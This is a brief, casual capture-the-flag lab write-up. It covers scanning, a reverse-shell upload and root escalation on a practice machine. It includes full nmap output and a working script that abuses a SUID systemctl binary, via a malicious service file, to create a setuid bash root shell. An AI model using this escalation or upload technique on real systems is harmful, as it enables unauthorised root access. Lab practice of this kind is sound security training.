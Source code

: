 This was a fairly simple one
I lost rev shell and had to do it again huhu

nmapped

```
# Nmap 7.80 scan initiated Tue Aug 19 20:06:54 2025 as: nmap -A -Pn -oN nmap 10.201.67.124
Nmap scan report for 10.201.67.124
Host is up (0.27s latency).
Not shown: 992 closed ports
PORT     STATE    SERVICE      VERSION
21/tcp   open     ftp          vsftpd 3.0.5
22/tcp   open     ssh          OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
139/tcp  open     netbios-ssn  Samba smbd 4.6.2
445/tcp  open     netbios-ssn  Samba smbd 4.6.2
1163/tcp filtered sddp
1259/tcp filtered opennl-voice
3128/tcp open     http-proxy   Squid http proxy 4.10
|_http-server-header: squid/4.10
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp open     http         Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Vuln University
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: , NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-08-19T14:22:48
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Aug 19 20:08:01 2025 -- 1 IP address (1 host up) scanned in 67.09 seconds
```

and ffuf'd then found a folder /internal
and recursively did that and found `http://vul.thm:3333/internal/index.php`
and tried a simple revshell script from pentest monke and it works
but changed the file extension to ``
also found `http://vul.thm:3333/internal/uploads`


got in as www-data
and found some suid files on enumeration and used the systemctl one as it said so

using this:
```
cd /tmp

# write malicious service
cat > rootshell.service <<EOF
[Unit]
Description=rootshell

[Service]
Type=simple
ExecStart=/bin/sh -c 'cp /bin/bash /tmp/bashroot; chmod +s /tmp/bashroot'

[Install]
WantedBy=multi-user.target
EOF

# tell systemctl (running as root because of SUID) to start it
/bin/systemctl enable /tmp/rootshell.service
/bin/systemctl start rootshell.service

# root shell
/tmp/bashroot -p

```

got root lol ez

